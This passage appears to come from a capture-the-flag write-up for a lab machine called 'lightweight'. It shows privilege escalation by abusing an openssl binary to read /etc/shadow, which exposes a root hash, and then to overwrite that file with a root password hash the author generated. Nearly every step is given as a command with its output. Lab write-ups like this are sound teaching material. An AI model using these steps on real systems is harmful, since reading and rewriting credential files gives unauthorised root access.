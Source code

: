## Privilege Escalation <a id="cb27"></a>

If you visit the openssl page on [gtfobins](https://gtfobins.github.io/gtfobins/openssl/), you’ll see that the binary can be used to upload, download, read and write files. Since this gives us the ability to read and modify any file on the system, we’ll escalate privileges by changing the root password in the _/etc/shadow_ file.

First, let’s verify that we can read the _/etc/shado_w file.

```text
[ldapuser1@lightweight ~]$ /home/ldapuser1/openssl enc -in "/etc/shadow"root:$6$eVOz8tJs$xpjymy5BFFeCIHq9a.BoKZeyPReKd7pwoXnxFNOa7TP5ltNmSDsiyuS/ZqTgAGNEbx5jyZpCnbf8xIJ0Po6N8.:17711:0:99999:7:::
bin:*:17632:0:99999:7:::
daemon:*:17632:0:99999:7:::
adm:*:17632:0:99999:7:::
lp:*:17632:0:99999:7:::
sync:*:17632:0:99999:7:::
....
```

Perfect! Let’s generate a hash of the password “_password_” that we’ll use for the root account.

```text
[ldapuser1@lightweight ~]$ openssl passwd -1
Password: 
Verifying - Password: 
$1$tPGe2ea2$6TWzZgmk7L2rMTBAgFu3I1
```

* **-1:** uses the MD5 based BSD password algorithm 1

Create a file _shadow_ and save the content of _/etc/shadow_ in it. Then change the root password to the hash we generated above.

```text
[ldapuser1@lightweight ~]$ cat shadow
root:$1$tPGe2ea2$6TWzZgmk7L2rMTBAgFu3I1:17711:0:99999:7:::
bin:*:17632:0:99999:7:::
daemon:*:17632:0:99999:7:::
adm:*:17632:0:99999:7:::
lp:*:17632:0:99999:7:::
sync:*:17632:0:99999:7:::
shutdown:*:17632:0:99999:7:::
halt:*:17632:0:99999:7:::
mail:*:17632:0:99999:7:::
.....
```

Replace the _/etc/shadow_ file with the _shadow_ file we just created.

```text
/home/ldapuser1/openssl enc -in shadow -out /etc/shadow
```

Confirm that the change was made.

```text
[ldapuser1@lightweight ~]$ /home/ldapuser1/openssl enc -in "/etc/shadow"
root:$1$tPGe2ea2$6TWzZgmk7L2rMTBAgFu3I1:17711:0:99999:7:::
bin:*:17632:0:99999:7:::
daemon:*:17632:0:99999:7:::
adm:*:17632:0:99999:7:::
lp:*:17632:0:99999:7:::
sync:*:17632:0:99999:7:::
shutdown:*:17632:0:99999:7:::
halt:*:17632:0:99999:7:::
mail:*:17632:0:99999:7:::
....
```
